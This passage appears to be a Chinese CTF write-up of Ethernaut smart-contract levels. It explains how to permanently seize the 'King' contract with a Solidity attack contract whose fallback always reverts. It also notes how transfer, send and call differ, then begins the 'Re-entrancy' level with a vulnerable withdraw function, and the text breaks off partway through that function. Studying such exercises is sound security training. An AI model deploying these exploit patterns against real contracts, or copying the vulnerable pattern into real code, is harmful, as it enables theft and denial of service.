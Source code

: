 - 解体步骤：
    - 观察receive()函数，可知当发送金额大于当前奖金prize，即用户将发送金额发送给合约，合约向金额发送给当前king后，当前king更新且奖金更新，发送者就能成为新的king，当我们成为king之后，只要拒绝接受合约发送的金额整个过程回退，其他人就无法成为king
    - 在攻击合约中，我们向生成的目标合约地址发送eth大于price后，我们就是新的king了，而其它人向我们转账时，因为此时地址_addr为我们的攻击合约，一转账就会触发fallback()函数回退操作，从此阻止了其他人成为king
    - 在目标合约详情页面可以看到创建合约时传入了0.001eth，故我们创建攻击合约后，部署攻击合约时传入大于0.001的eth，然后调用attack方法即可
    - 输入`await contract._king()`,可以查看到国王地址变为了我们的攻击合约，提交实例该关卡完成
- 攻击合约：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Attack {
    
        constructor() public payable{
    
        }
    
        function attack(address payable _addr) public payable{
    
            _addr.call.value(msg.value)("");
    
        }
    
        fallback() payable external{
            revert();
        }
    
    }
    ```
    
- PS：transfer
    - transfer:要求接收的智能合约中必须有一个`fallback`或者`receive`函数，否则会抛出一个错误(error)，并且revert（也就是回滚到交易前的状态）。而且有单笔交易中的操作总gas不能超过2300的限制。transfer函数会在以下两种情况抛出错误：
        - 付款方合约的余额不足，小于所要发送的value
        - 接收方合约拒绝接收支付
    - send:和transfer函数的工作方式基本一样，唯一的区别在于，当出现上述两种交易失败的情况时，send的返回结果是一个boolean值，而不会执行revert回滚。
    - call: call函数和上面最大的区别在于，它没有gas的限制，使用call时EVM将所有gas转移到接收合约上将参数设置为空会触发接纳合约的`fallback`函数，运用call同样也能够调用本合约内的函数。
    

### ****Re-entrancy****

- 题目要求：拿走合约中的所有钱
- 合约源码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
```